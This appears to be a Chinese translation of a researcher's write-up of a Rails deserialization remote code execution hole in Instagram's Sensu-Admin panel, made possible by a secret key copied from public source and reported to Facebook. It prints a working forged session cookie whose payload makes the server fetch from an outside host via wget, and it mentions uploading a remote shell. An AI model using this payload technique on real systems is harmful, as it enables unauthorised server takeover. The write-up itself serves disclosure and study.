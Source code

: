 # 从反序列化漏洞到掌控帝国：百万美刀的Instagram漏洞

http://exfiltrated.com/research-Instagram-RCE.php

0x00 前言
=====

2012年，Blloberg在Facebook白帽子奖励计划的网站上发表了一片著名的文章，文章中提到：“如果Facebook出了价值百万美刀的漏洞,我们也愿意照单全付”。在本文开始之前，我想为骗点击量的文章标题向各位道个歉，不过Facebook之前放的豪言是我写这篇文章的重要背景。经过一番尝试和努力，我确实发现了一个价值百万美刀的Instagram漏洞，该漏洞可以用来获取Instagram的源代码，照片和SSL证书等。

0x01 绝佳线索
=====

去年，我曾对Facebook的安全性进行过一些小的测试，也取得了一些成果，所以我对于深入测试Facebook的整体业务安全性有着十分浓厚的兴趣。发现这个漏洞其实也要感谢我所在的公司能够允许我在非工作时间查找其他公司的漏洞，要不然根本没有这篇文章了。事情是这样的，我的一个朋友前段时间和我提到，他们正在测试作为Facebook漏洞奖励计划重要组成成分的Ins系统的安全性。他们发现Instagram存在一台有漏洞的Ruby服务器([https://sensu.instagram.com](https://sensu.instagram.com/))，我的朋友告诉我，这个漏洞已经被他提交到Facebook漏洞响应团队，漏洞分类是“内部管理后台对外”。在他向Facebook中提交的报告中提到，该后台可能存在一个Ruby密码重置漏洞由此可以被黑客利用登录进入后台，不过他并没有成功印证他的猜测。看到这个漏洞细节的第一眼，我就想起了CVE-2013-3221（[http://ronin-ruby.github.io/blog/2013/01/28/new-rails-poc.html](http://ronin-ruby.github.io/blog/2013/01/28/new-rails-poc.html)），不过鉴于他已经提交了这个漏洞，所以我朋友只是私下里让我帮他看看是不是能够深入利用这个线索，扩大漏洞影响，接触Instagram的核心数据。

0x02 Ruby(Rails)远程命令执行
=====

基于之前朋友的漏洞报告细节，我尝试着查找可以重置这个Ruby应用密码的漏洞。不过初步的测试效果并不理想，一般的登录页面并不接受数值“0”作为密码，而且我也不知道要用什么办法才能发送一封密码重置邮件。我发现，Instagram的这个后台可能是用了开源的Sensu管理系统，于是我谷歌了关键词“Sensu-Admin”，但是一无所获。看起来，貌似我朋友的推测并不行。

不过惊喜的是，我发现了这个应用在Github上面有源代码，在该项目的目录中，我发现了`secret_token.rb`中泄露了Rails的私钥。我第一反应是，Facebook的程序员不会傻到把在搭建自己后台应用的时候不更改私钥吧？不过我还是想试试，因为如果尝试成功的话，那我就可以伪造seesion cookies，然后登陆后台了。我前面也提到CVE-2013-3221（[http://ronin-ruby.github.io/blog/2013/01/28/new-rails-poc.html](http://ronin-ruby.github.io/blog/2013/01/28/new-rails-poc.html)），这篇文章的作者指出，不仅仅cookies可以被伪造，而且因为Ruby Rails的反序列化漏洞，攻击者甚至可以直接构造远程代码执行攻击。

在尝试反序列化漏洞测试Instagram这个业务之前，我首先在本地进行了测试，我是用了下面这个测试框架：  
[https://github.com/charliesome/charlie.bz/blob/master/posts/rails-3.2.10-remote-code-execution.md](https://github.com/charliesome/charlie.bz/blob/master/posts/rails-3.2.10-remote-code-execution.md)

结果出人意料的好，我成功在本地复现了漏洞。所以，我使用相同的步骤，结合刚刚在Github上的发现，我向Instagram的Sensu-Admin管理后台服务器发送了如下的cookie:

```
_sensu-admin_session=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQc6DkBpbnN0YW5jZW86CEVSQgY6CUBzcmNJIkFldmFsKCdzeXN0ZW0oIndnZXQgaHR0cDovL2V4ZmlsdHJhdGVkLmNvbS90ZXN0LWluc3RhZ3JhbSIpJykGOgZFVDoMQG1ldGhvZDoLcmVzdWx0--92c614a28526d03a1a31576bf4bb4c6026ef5e1f

```

通过精心构造的cookie，Instagram的服务器成功执行了我发送的代码，解密开来就是这样：

`"wget http://exfiltrated.com/test-instagram"`

所以，我建立了一个监听端口，然后上传了一个远程shell文件，结果如下：

![p1](http://drops.javaweb.org/uploads/images/36d1df4f5406afdccad180f563f112b2329156a2.jpg)

成功让Instagram服务器执行了我发送的命令代码以后，我把该漏洞报告给了Facebook团队。我在报告中提到：

1.  Facebook使用的“Sensu-Admin”服务使用了网络上公开的私钥
2.  sensu.instagram.com正运行着Rails 3.X版本，该版本存在一个远程代码执行漏洞。
